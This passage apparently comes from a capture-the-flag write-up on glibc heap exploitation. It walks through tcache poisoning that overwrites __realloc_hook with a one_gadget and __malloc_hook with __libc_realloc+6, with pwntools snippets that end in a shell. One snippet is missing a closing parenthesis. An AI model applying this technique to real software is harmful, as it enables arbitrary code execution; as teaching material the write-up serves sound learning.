So now we use show() (python script) to overwrite the forward pointer with `__realloc_hook`. Then we overwrite `__realloc_hook` with our one_gadget and `__malloc_hook` with `__libc_realloc`. 

Before continue, we need to know at which push in prologue combine with pop in epilogue to get null byte at `rsp+0x70`. After a while trying, we know at `__libc_realloc + 6` will help us get null byte stack. 

Now let's continue writing our script. Because our fake chunk went to tcache, so all we need is overwrite forward pointer to `__realloc_hook`, malloc 2 chunk with the same size and overwrite:

```
show(b'Y', flat(0x602120, 0, 0, 0x71, libc_base + libc.sym['__realloc_hook']))

# Keep the same forward pointer point to realloc_hook
add(0x60, flat(libc_base + libc.sym['__realloc_hook']))

# Overwrite __realloc_hook with one_gadget and __malloc_hook with __libc_realloc+6
add(0x60, flat(libc_base + libc.sym['one_gadget'], libc_base + libc.sym['__libc_realloc']+6))
```

![overwrite_forward_pointer.png](images/overwrite_forward_pointer.png)

![Final_done.png](images/Final_done.png)

All we need is just a simple malloc() to get shell.

```
p.sendlineafter(b'Choice:', b'1')
p.sendlineafter(b'Enter size:', b'0'

p.interactive()
```
